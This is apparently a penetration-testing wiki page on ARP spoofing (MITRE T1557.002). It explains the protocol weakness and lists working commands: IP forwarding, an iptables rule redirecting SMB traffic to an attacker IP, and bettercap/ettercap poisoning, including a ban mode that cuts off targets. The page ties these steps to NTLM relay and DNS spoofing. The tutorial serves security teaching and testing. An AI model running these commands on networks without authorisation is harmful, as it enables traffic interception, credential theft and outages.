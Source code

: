 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1557.002
---
```


# ARP spoofing

## Theory

The ARP \(Address Resolution Protocol\) is used to link IPv4 addresses with MAC addresses, allowing machines to communicate within networks. Since that protocol works in broadcast, attackers can try to impersonate machines by answering ARP requests \(_"Who is using address 192.168.56.1? I am!"_\) or by flooding the network with ARP announcements \(_"Hey everyone, nobody asked but I'm the one using address 192.168.56.1"_\). This is called ARP spoofing \(also called ARP poisoning\).

## Practice

{% hint style="warning" %}
Since spoofing every address in a subnet can cause temporary but severe disruption in that subnet, it is highly recommended to target specific addresses and machines while doing ARP spoofing.
{% endhint %}

There are multiple scenarios where ARP spoofing can be used to operate lateral movement within Active Directory domains. 

1. One could spoof an SMB server and route received SMB packets to internal capture or relay servers for [NTLM capture](../abusing-lm-and-ntlm/capturing-hashes.md) or [NTLM relay](../abusing-lm-and-ntlm/relay.md). 
2. One could also spoof the internal DNS server, so that DNS queries can be answered with fake resolution \([DNS spoofing](dns-spoofing.md)\).

### Preparation

In order to conduct ARP spoofing attacks, the attacker's machine needs to be prepared accordingly \(IP forwarding enabled, outgoing ICMP dropped, internal traffic rerouted\).

```bash
# IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# outgoing ICMP drop (prevents sending port/host unreachable to target)
iptables -A OUTPUT -p ICMP -j DROP

# internal traffic rerouting of SMB packets (port 445, can be changed)
iptables --table nat --append PREROUTING --proto tcp --dst $SPOOFED_IP --dport 445 --jump DNAT --to-destination $ATTACKER_IP:445
```

### Spoofing

Tools like [ettercap](https://www.ettercap-project.org/) \(C\) of [bettercap](https://www.bettercap.org/) \(Go\) can then be used to flood the network with ARP announcements for a specific IP address.

{% tabs %}
{% tab title="Bettercap" %}
The following commands can be used, with parameters as follows

* `set arp.spoof.targets` to set the targets
* `set arp.spoof.internal true` to make bettercap spoof local connections among computers of the network
* `arp.ban on` to start the spoofer in ban mode, meaning the target\(s\) connectivity will not work
* `arp.spoof` on to start the spoofer

```bash
set arp.spoof.targets $TARGET_TO_POISON_IP
set arp.spoof.internal true
arp.ban on
arp.spoof on
```
{% endtab %}

{% tab title="Ettercap" %}
While bettercap is now usally a better alternative to ettercap, the following command can be used for ARP spoofing.

```bash
ettercap --text --quiet --nopromisc --mitm arp:remote /$SWITCH_IP// /$TARGET_TO_POISON_IP//
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html" %}

{% embed url="https://luemmelsec.github.io/Relaying-101/\#arp-spoofing" %}

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/arp.spoof/" %}

{% embed url="https://ivanitlearning.wordpress.com/2019/04/07/arp-dns-poisoning-with-bettercap-and-impacket-ntlmrelayx/" %}

